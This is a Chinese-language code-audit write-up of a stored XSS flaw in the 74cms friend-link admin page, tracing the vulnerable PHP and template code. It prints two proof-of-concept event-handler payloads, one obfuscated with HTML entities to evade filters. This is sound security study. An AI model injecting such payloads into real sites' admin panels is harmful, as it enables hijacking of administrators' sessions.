





### 环境搭建

源码可以在官网进行下载：http://www.74cms.com/download/lists/module_name/Home/type/setup/cname/%E9%AA%91%E5%A3%AB%E4%BA%BA%E6%89%8D%E7%B3%BB%E7%BB%9F%E5%9F%BA%E7%A1%80%E7%89%88%28%E5%AE%89%E8%A3%85%E5%8C%85%29.html


### 漏洞分析

管理员后台有个申请友情链接的地方




查看一下对应的代码，位于/upload/admin/admin_link.php


act为GET请求访问admin_link.php的时候传入的参数，该参数为控制了页面显示的内容，当act为空时，打印友情链接列表

```php
$act = !empty($_GET['act']) ? trim($_GET['act']) : 'list';
if ($act == 'list') {
    ...
    $offset = ($currenpage - 1) * $perpage;
    $link = get_links($offset, $perpage, $joinsql . $wheresql . $oederbysql);
    $smarty->assign('link', $link);
    $smarty->assign('page', $page->show(3));
    $smarty->assign('upfiles_dir', $upfiles_dir);
    $smarty->assign('get_link_category', get_link_category());
    $smarty->display('link/admin_link.htm');
```


追踪get_links()函数，该函数从数据库中查询了友情列表的信息，然后返回

```php
function get_links($offset, $perpage, $get_sql= '')
{
	global $db;
	$row_arr = array();
	$limit=" LIMIT ".$offset.','.$perpage;
	$result = $db->query("SELECT l.*,c.categoryname FROM ".table('link')." AS l ".$get_sql.$limit);
	while($row = $db->fetch_array($result))
	{
	$row_arr[] = $row;
	}
	return $row_arr;	
}
```


后面的代码则是按照模板，显示从数据库中获取的内容，我们跟进一下模板文件，即link/admin_link.htm，这里使用的是相对路径，绝对路径为/upload/admin/templates/default/link/admin_link.htm，其中，有段代码是有问题的

```php
<span style="color:#FF6600" title="" class="vtip">[logo]</span>
```


这里直接把显示logo的img标签放在span标签的title里面，当鼠标滑过的时候回调用事件执行显示title即执行img标签，这里的利用点是{#$list.link_logo#}，**那么我们的思路就有了：在前台申请链接的时候，在LOGO处输入payload，恶意代码会被代入后台，当管理员鼠标挪到LOGO的时候，触发XSS**


payload1：使用HTML实体编码

```php
# &#114; 是字符r的HTML实体表示，HTML实体参考手册：https://www.w3school.com.cn/charsets/ref_html_8859.asp
1 oner&#114;or=ale&#114;t(1)
```





后台弹窗



payload2

```php
1 onerror=alert(2)
```



后台弹窗




### 参考

https://www.cnblogs.com/Cl0ud/p/12407981.html

代码审计《企业级Web代码安全架构》-尹毅/Seay/法师